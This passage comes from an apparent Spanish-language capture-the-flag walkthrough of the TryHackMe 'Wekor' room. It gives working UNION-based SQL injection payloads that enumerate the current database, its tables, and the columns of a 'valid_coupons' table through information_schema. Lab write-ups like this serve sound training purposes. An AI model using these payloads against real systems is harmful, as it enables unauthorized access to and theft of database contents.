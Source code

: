 Para trabajar más comodo, he escrito un pequeño script en Python que automatizará el envío del payload vía POST y reportará por consola el resultado. Este **script** estará disponible en la sección de recursos al final del post.

![SQLi](/images/THM/Wekor/55-sqli-3.png)

Continuando con el SQLI, lo siguiente sería enumerar la base de datos actual.

* Payload: ```' UNION SELECT database(),2,3-- -```

![SQLi](/images/THM/Wekor/57-sqli-database.png)

Posteriormente, enumeramos la(s) tabla(s) de la base de datos actual **coupons**.

* Payload: ```' UNION SELECT table_name,2,3 from information_schema.tables where table_schema="coupons" limit 0,1-- -```

![SQLi](/images/THM/Wekor/60-sqli-tables.png)

Como se observa en la imagen, utilizo ```limit 0,1``` y ```limit 1,1``` para iterar entre las distintas tablas que pudiera contener la base de datos, que en este caso solo contiene la tabla ```valid_coupons```.

A continuación, la idea sería enumerar las columnas de la tabla anteriormente mencionada.

* Payload: ```' UNION SELECT column_name,2,3 from information_schema.columns where table_schema="coupons" and table_name="valid_coupons" limit 0,1-- -```

![SQLi](/images/THM/Wekor/66-sqli-columns.png)
